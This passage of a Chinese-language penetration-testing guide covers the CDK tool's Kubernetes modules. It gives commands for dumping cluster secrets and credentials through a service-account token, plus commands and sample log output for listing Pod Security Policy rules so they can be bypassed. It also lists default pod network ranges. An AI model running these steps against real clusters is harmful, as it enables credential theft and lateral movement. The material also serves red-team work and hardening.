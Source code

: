 K8s Secrets 用于存储敏感数据，从 Secrets 中获取的 AK 及通信凭证可用户后续渗透中从外部或云产品 API 窃取信息。

```
#命令格式
./cdk run k8s-secret-dump (auto|<service-account-token-path>)
    
#使用实例
./cdk run k8s-secret-dump auto
```

### 安全策略

对于已经获取了 kubeconfig 或 sa 账号权限，进而想要创建特殊配置的容器，但是受到了 K8s Pod Security Policies 的限制时可以使用这个 Exploit 获取 Pod Security Policies 的规则信息。

```
#命令格式
./cdk run k8s-psp-dump (auto|<service-account-token-path>

#使用实例
./cdk run k8s-psp-dump auto
2021/03/24 22:15:58 getting K8s api-server API addr.
  Find K8s api-server in ENV: https://ip:8443
2021/03/24 22:15:58 trying to dump K8s Pod Security Policies with local service-account: token
2021/03/24 22:15:58 requesting  /apis/policy/v1beta1/podsecuritypolicies
2021/03/24 22:15:58 dump Pod Security Policies success, saved in:  k8s_pod_security_policies.json
2021/03/24 22:15:58 requesting  /api/v1/namespaces/default/pods
2021/03/24 22:15:58 K8S Pod Security Policies rule list:
2021/03/24 22:15:58 rule { securityContext.hostPID: true } is not allowed.
2021/03/24 22:15:58 rule { securityContext.hostIPC: true } is not allowed.
2021/03/24 22:15:58 rule { volumes[0].hostPath.pathPrefix: \"/proc\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[1].hostPath.pathPrefix: \"/dev\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[2].hostPath.pathPrefix: \"/sys\" } is not allowed.
2021/03/24 22:15:58 rule { volumes[3].hostPath.pathPrefix: \"/\" } is not allowed.
2021/03/24 22:15:58 rule { containers[0].securityContext.capabilities.add: \"SYS_ADMIN\" } is not allowed.
2021/03/24 22:15:58 rule { containers[0].securityContext.capabilities.add: \"SYS_PTRACE\" } is not allowed.
```

### 内部网络

- Flannel默认使用 10.244.0.0/16 网络
- Calico默认使用192.168.0.0/16 网络
